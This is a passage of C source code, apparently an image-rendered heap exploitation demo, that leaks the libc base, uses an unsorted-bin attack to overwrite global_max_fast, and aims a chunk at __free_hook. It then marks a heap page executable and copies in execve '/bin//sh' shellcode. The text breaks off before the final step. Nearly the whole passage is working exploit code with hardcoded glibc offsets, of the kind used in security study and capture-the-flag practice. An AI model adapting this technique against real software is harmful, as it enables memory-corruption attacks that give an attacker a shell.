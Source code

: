 ```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/mman.h>

void setbufs()
{
	setvbuf(stdin,0,2,0);
	setvbuf(stdout,0,2,0);
	setvbuf(stderr,0,2,0);
}

// fastbin size convert to address
#define offset2size(x)	((x)<<1)
#define ul unsigned long

unsigned char shellcode[]="\x48\x31\xc0\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05";

int main(){

	ul libc_base = 0;
	ul global_max_fast = 0;
	ul __free_hook = 0x3c67a8;
	ul main_arena = 0x3c4b20;
	ul *p, *p1, *p2, *p3, *p4;

	setbufs();

	p1 = malloc(0x100);
	p2 = malloc(0x20);

	free(p1);
	libc_base = *(ul*)p1;
	libc_base -= 0x3c4b78;
	global_max_fast = libc_base + 0x3c67f8;
	free(p2);
	printf("libc_base is :%lx\n", libc_base);
	printf("&(global_max_fast) is :%lx\n", global_max_fast);
	printf("global_max_fast is :%lx\n", *(ul*)global_max_fast);

	p1 = malloc(0x100);
	p2 = malloc(0x20);
	p3 = malloc(offset2size(__free_hook-main_arena));
	malloc(0x20);

	free(p1);
	p = (ul*)p1;
	//*(p+1) = (ul)&libc_base - sizeof(ul*)*2;
	//malloc(0x100);
	//printf("after unsorted-bin attack is :%lx\n", libc_base);
	
	*(p+1) = global_max_fast - sizeof(ul*)*2;
	malloc(0x100);
	printf("after unsorted-bin attack\n");
	printf("global_max_fast is :%lx\n", *(ul*)global_max_fast);

	free(p3);
	ul page = ((ul)p3-sizeof(ul*)*2)&(~0xFFF);
	mprotect((void*)page, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC);
	memcpy((void*)((ul)p3-sizeof(ul*)*2), shellcode, sizeof(shellcode));

```